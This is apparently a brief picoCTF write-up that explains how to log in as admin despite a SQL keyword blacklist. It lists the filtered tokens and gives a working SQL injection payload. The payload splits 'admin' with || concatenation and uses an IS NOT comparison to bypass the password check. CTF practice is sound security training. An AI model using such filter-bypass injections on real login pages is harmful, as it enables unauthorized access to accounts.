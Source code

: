 ## Description
Last time, I promise! Only 25 characters this time. Log in as admin Site: http://mercury.picoctf.net:28715/ Filter: http://mercury.picoctf.net:28715/filter.php

## Approach
1. Filters: or and true false union like = > < ; -- /* */ admin
2. We can pass by SELECT username, password FROM users WHERE username='`adm'||'in`' AND password='`a' IS NOT '1`' 
